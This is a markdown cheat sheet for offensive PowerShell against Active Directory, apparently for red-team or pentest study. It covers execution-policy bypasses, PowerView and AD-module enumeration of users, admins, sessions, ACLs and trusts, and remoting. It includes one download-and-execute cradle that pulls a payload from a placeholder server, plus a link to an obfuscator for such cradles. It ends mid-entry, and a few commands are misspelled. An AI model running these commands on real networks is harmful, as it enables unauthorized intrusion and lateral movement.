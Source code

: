 ## BASICS:  

**Check Execution Policy**:  
1. Get-ExecutionPolicy  

**Bypass execution policy**:  
1. powershell -executionpolicy bypass .\script.ps1  
2. powershell -ep bypass  
3. powershell -c <cmd>  
4. powershell -enc  
  
**Import Modules**:  
1. . .\script.ps1  
2. Import-Module <path to script>  

**List Available modules**:  
1. Get-Module -ListAvailable  

**All commands in the module**:  
1. Get-Command -Module <module name>  
  
## COMMAND EXECUTION:  
**IEX**:  (**!= OPSEC**)
1. iex (New-Object Net.webClient).DownloadString('http://server/payload.ps1')  

**IEX Obfuscator**: https://github.com/danielbohannon/Invoke-CradleCrafter.git  
  
## DOMAIN ENUMERATION (POWERVIEW):  
**Get the current domain**:  
1. Get-NetDomain  
2. Get-NetDomain -Domain \<domain name\>  

**Get the current domain SID**:  
1. Get-DomainSID  
  
**Get domain controllers for a domain**:  
1. Get-NetDomainController  
2. Get-NetDomainController -Domain \<domain name\>  

**Get users of domain**:  
1. Get-NetUser  
2. Get-NetUser -Domain \<domain name\>  
3. Get-NetUser -UserName \<user name\>  
  
**Get the groups in the current domain**:  
1. Get-NetGroup  
2. Get-NetGroup \*admin\*  

**Get all the members of the Domain Admins group**:  
1. Get-NetGroupMember -GroupName "Domain Admins"  
  
**Get group membership for a user**:  
1. Get-NetGroup -UserName \<user name\>  

**Get computers of the domain**:  
1. Get-NetComputer  
2. Get-NetComputer -FullData  

**Fins all machines on the current domain where the current user has a local admin access**:  
1. Find-LocalAdminAccess -Verbose  
  
**Find all admins on all machines of the domain**:  
1. Invoke-EnumerateLocalAdmin -Verbose  
  
**List sessions on the current computer**:  
1. Get-NetSession -ComputerName \<computer name\>  
  
**Find computers where a omain admin is logged on and current user has access**:  
1. Invoke-UserHunt -CheckAccess  


**Get ACLs**:  
1. Get-ObjecAcl -SamAccountName \<user name\> -ResolveGUIDs  
2. Get-ObjecAcl -ADSprefix 'CN=Administrators,CN=Users'  
3. Invoke-ACLScanner -ResolveGUIDs  
  
**Get a list of all domain trusts for the current domain**:  
1. Get-NetDomainTrust  
2. Get-NetDomainTrust -Domain \<domain name\>  
  
**Get a list of all forest trusts for the current domain**:  
1. Get-NetForest  
2. Get-NetForest -Forest \<forest name\>  
  
**Get all domains in current forest**:  
1. Get-NetForestDomain  
2. Get-NetForestDomain -Forest \<forest name\>  
  
**Get forest trusts**:  
1. Get-NetForestTrust  
2. Get-NetForestTrust -Forest \<forest name\>  
  
## DOMAIN ENUMERATION (ACTIVE DIRECTORY TOOLS):  
**Get the current domain**: 
1. Get-ADDomain  
2. Get-ADDomain -Identity \<domain name\>  
  
**Get the current domain SID**:  
1. (Get-ADDomain).DomainSID.Value  
  
**Get domain controllers for a domain**:  
1. Get-ADDomainController  
2. Get-ADDomainController -Discover -DomainName \<domain name\>  
  
**Get users of domain**:  
1. Get-ADUser -Filter \* -Properties \*  
2. Get-ADUser -Server \<domain controller\>  
3. Get-ADUser -Identity \<user name\>  

**Get the groups in the current domain**:  
1. Get-ADGroup -Filter * | select Name  
2. Get-ADGroup -Filter {Name like "\*admin\*"} | select Name  
  
**Get all the members of the Domain Admins group**:  
1. Get-ADGroupMember -Identity "Domain Admins" -Recursive  

**Get group membership for a user**:  
1. Get-ADPrincipalGroupMembership -Identity \<user name\>  
  
**Get computers of the domain**:  
1. Get-ADComputer -Filter * | select Name  
2. Get-ADComputer -Filter \* -Prooerties \*  
  
**Get ACLs**:  
1. (Get-Acl 'AD:\CN=Lab,CN=Users,DC=domain,DC=local').Access  

**Get a list of all domain trusts for the current domain**:  
1. Get-ADTrust  
2. Get-ADTrust -Identiy \<domain name\>  
  
**Get a list of all forest trusts for the current domain**:  
 1. (Get-ADForest).Domains  
 2. Get-ADForest -Identiy \<forest name\>  
  
**Get forest trusts**:  
 1. Get-ADTrust -Filter 'msDS-TrustForestTrustInfo -ne "$null"'  

## POWERSHELL REMOTING  
 - To enable PSRemoting user need Admin privileges.  
 - Enabled by default on Server 2012 onwards.  

**One-to-One remoting**:  
 - Create a new PSSession: $session = New-PSSession -ComputerName \<computer name\>  
 - Interact with particular PSSession: a) Enter-PSSession -Session $session b) Enter-PSSession -ComputerName \<computer name\>  

**One-to-Many remoting**:  
1. Invoke-Command -ScriptBlock \{\}
